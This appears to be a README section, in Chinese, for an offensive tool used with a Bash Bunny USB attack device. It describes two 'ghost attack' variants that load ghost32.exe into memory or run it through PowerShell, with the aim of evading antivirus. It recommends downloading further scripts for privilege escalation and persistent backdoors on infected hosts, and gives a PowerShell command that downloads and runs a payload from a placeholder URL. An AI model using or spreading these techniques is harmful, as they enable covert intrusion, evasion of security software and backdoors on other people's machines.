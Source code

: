 ## Bashbunny

这个环节是利用bashbunny配合程序进行隐蔽攻击。
### ghost attack v1
我们直接将ghost32.exe写入内存，可以彻底逃避杀毒软件的查杀。并且在某些windows平台会崩溃，目前会在Powershell执行的时候被火绒警告
### ghost attack v2
将我们的ghost32.exe放在tool目录下，可以直接利用powershell脚本调用。在未来容易被杀毒软件查杀。

### 另外
在ghost32.exe感染主机后，远程执行命令。我们建议利用Powershell来下载更多的脚本配合提权或者长连接后门。利用我们的python脚本，经过测验可以使用如下命令:
`python scapy_ghost.py -c "powershell (new-object System.Net.WebClient).DownloadFile('http://xxxxxx','d://xxxx');start-process -f ('d://xxxxx')"`
